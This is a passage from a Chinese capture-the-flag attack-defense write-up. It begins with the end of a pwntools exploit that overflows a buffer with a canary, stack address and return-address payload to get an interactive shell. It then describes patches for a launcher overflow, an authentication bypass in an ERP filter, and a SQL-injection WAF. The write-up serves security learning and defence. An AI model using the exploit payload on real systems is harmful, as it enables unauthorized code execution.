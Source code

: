 ```python
'''
sea("又发了一条短信:","u"*0x98+p64(canary)+p64(stack)+p64(0x000000000000cb6f+BASE)+p64(0)+p64(BASE+0xA193E))
sl('')
sl('')

p.interactive()
```

### diff

#### 防御

给了俩文件，diff 文件看了一眼没看出来问题。看看 launcher：

漏洞点在 set\_name 时候的溢出：

![image-20220921174521244](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-734591ba17b3ad687d4610c344aee1beaf2ddc7a.png)

比赛中虽然并没有发现怎么利用的这个漏洞，但是这玩意如果设置文件1则能覆盖到**下一个文件的文件名**，设置文件2可以覆盖**canary上方**存放的几个字节，修完确实是防御成功了。

`patch`

修改read的字节数为 **0x7a** 即可

![image-20220921174617959](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-c938f4406523cc5eccc64581d1eff111414df70b.png)

WEB
---

### 赌怪

#### 防御

解压附件，查看`src\main\java\com\jsh\erp\controller`目录下的`UserController.java`，发现是华夏erp的项目。  
![](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-3da3b96250004cb8d2fe1026ec0540ab7c1eb307.png)  
通过搜索华夏erp漏洞可知存在授权绕过和命令执行漏洞。  
参考: <https://cn-sec.com/archives/387212.html>

修改`LogCostFilter.java`,修复其认证绕过出现的点即可防止后续的命令执行。

![](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-3d3588c16d223a4ff3ccd6e22969613c2557bd54.png)  
patch如上，即对传入的所有文件进行认证，避免绕过。

### simple-fish

#### 防御

拿到源码之后扫描了一遍都是一些`sql注入`和`XSS`的漏洞可能存在, 并没有发现文件上传和RCE的漏洞点,

![image-20220921172752074](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-f3eb995d62361a42bb90ef890b281d9add07c0e2.png)

之后我自己逐个源码看完之后也确定了没有命令执行的点, 最后就是把Fix的目标定在了sql注入上, 在目录被多次包含的`db.php`引起了我的注意, 因为它不仅被多次包含, 而且里面会对参数进行waf检测,所以就将Fix点放在了这个waf函数上
